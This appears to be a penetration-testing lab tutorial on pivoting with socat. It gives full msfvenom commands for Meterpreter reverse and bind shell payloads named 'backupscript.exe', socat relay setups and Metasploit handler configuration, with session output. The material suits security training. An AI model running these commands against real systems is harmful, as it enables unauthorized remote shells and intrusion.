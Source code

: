 ## Socat Redirection with a Reverse Shell

[Socat](https://linux.die.net/man/1/socat) is a bidirectional relay tool that can create pipe sockets between 2 independent network channels without needing to use SSH tunneling. It acts as a redirector that can listen on one host and port and forward that data to another IP address and port.

### Starting Socat Listener
```shell-session
ubuntu@Webserver:~$ socat TCP4-LISTEN:8080,fork TCP4:10.10.14.18:80
```

Socat will listen on localhost on port 8080 and forward all the traffic to 10.10.14.18:80, we can create a payload that will connect to our redirector on the Ubuntu server. We will also start a listener on the attack host.

### Creating the Windows Payload
```shell-session
$ msfvenom -p windows/x64/meterpreter/reverse_https LHOST=172.16.5.129 -f exe -o backupscript.exe LPORT=8080
```

### Starting MSF Console
```shell-session
$ sudo msfconsole

<SNIP>
```

### Configuring and Starting the multi/handler
```shell-session
msf6 > use exploit/multi/handler

[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_https
payload => windows/x64/meterpreter/reverse_https
msf6 exploit(multi/handler) > set lhost 0.0.0.0
lhost => 0.0.0.0
msf6 exploit(multi/handler) > set lport 80
lport => 80
msf6 exploit(multi/handler) > run

[*] Started HTTPS reverse handler on https://0.0.0.0:80
```

We can now run the payload from the Windows machine.

### Establishing the Meterpreter Session
```shell-session
[!] https://0.0.0.0:80 handling request from 10.129.202.64; (UUID: 8hwcvdrp) Without a database connected that payload UUID tracking will not work!
[*] https://0.0.0.0:80 handling request from 10.129.202.64; (UUID: 8hwcvdrp) Staging x64 payload (201308 bytes) ...
[!] https://0.0.0.0:80 handling request from 10.129.202.64; (UUID: 8hwcvdrp) Without a database connected that payload UUID tracking will not work!
[*] Meterpreter session 1 opened (10.10.14.18:80 -> 127.0.0.1 ) at 2022-03-07 11:08:10 -0500

meterpreter > getuid
Server username: INLANEFREIGHT\victor
```

## Socat Redirection with a Bind Shell

We can create a socat bind shell redirector similar to the socat's reverse shell redirector. In this case the Windows server will start a listener and bind to a particular port. We can create a bind shell payload for Windows and execute it on the Windows host. We can at the same time configure a socat redirector on the Ubuntu server, which will listen for incoming connections from a Metasploit bind handler and forward that to a bind shell payload on a Windows target.

![[55.webp]]

### Creating the Windows Payload
```shell-session
$ msfvenom -p windows/x64/meterpreter/bind_tcp -f exe -o backupscript.exe LPORT=8443
```

We can start a `socat bind shell` listener, which listens on port `8080` and forwards packets to Windows server `8443`.
### Starting Local Bind Shell Listener
```shell-session
ubuntu@Webserver:~$ socat TCP4-LISTEN:8080,fork TCP4:172.16.5.19:8443
```

### Configuring & Starting the Bind multi/handler
```shell-session
msf6 > use exploit/multi/handler

[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/bind_tcp
payload => windows/x64/meterpreter/bind_tcp
msf6 exploit(multi/handler) > set RHOST 10.129.202.64
RHOST => 10.129.202.64
msf6 exploit(multi/handler) > set LPORT 8080
LPORT => 8080
msf6 exploit(multi/handler) > run

[*] Started bind TCP handler against 10.129.202.64:8080
```

### Establishing Meterpreter Session
```shell-session
[*] Sending stage (200262 bytes) to 10.129.202.64
[*] Meterpreter session 1 opened (10.10.14.18:46253 -> 10.129.202.64:8080 ) at 2022-03-07 12:44:44 -0500

meterpreter > getuid
Server username: INLANEFREIGHT\victor
```